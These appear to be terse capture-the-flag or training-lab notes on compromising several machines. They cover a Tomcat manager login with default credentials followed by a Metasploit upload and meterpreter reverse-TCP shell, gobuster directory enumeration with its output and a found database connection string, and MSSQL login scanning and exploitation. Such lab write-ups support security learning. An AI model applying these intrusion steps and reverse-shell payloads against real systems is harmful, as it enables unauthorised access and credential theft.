 
## MACHINE 101 
$$$$ GOT THE FLAG
 
We logged with tomcat:s3cret in the 8080/manager 


Used the msfconsole: multi/http/tomcat_mgr_upload
payload: java/meterpreter/reverse_tcp


> getuid: tomcat8


meterpreter > sysinfo 
Computer    : xubuntu
OS          : Linux 4.4.0-104-generic (amd64)
Meterpreter : java/linux



## MACHINE 140

dirsearch found /project 

gobuster /project with the auth admin:admin

gobuster dir -u http://172.16.64.140/project -w /usr/share/wordlists/dirb/big.txt -U admin 

* After a long time gobuster found /project/backup/test


2021/10/10 14:20:16 Starting gobuster in directory enumeration mode

/.htpasswd            (Status: 403) [Size: 312]
/.htaccess            (Status: 403) [Size: 312]
/backup               (Status: 301) [Size: 330] [--> http://172.16.64.140/project/backup/backup/]
/css                  (Status: 301) [Size: 327] [--> http://172.16.64.140/project/backup/css/]   
/images               (Status: 301) [Size: 330] [--> http://172.16.64.140/project/backup/images/]
/test                 (Status: 301) [Size: 328] [--> http://172.16.64.140/project/backup/test/]  

Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt

## MACHINE 182


## MACHINE 199

login of mssql tested with msfconsole /scanner/mssql/mssql_login

exploited with: mssql

Listing: C:\Users\AdminELS\Desktop

```bash
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  853   fil   2019-03-12 09:31:52 -0300  HeidiSQL.lnk
100666/rw-rw-rw-  282   fil   2017-12-15 20:42:58 -0200  desktop.ini
100666/rw-rw-rw-  47    fil   2019-04-02 07:13:19 -0300  flag.txt
100666/rw-rw-rw-  632   fil   2019-03-13 03:58:33 -0300  id_rsa.pub
```
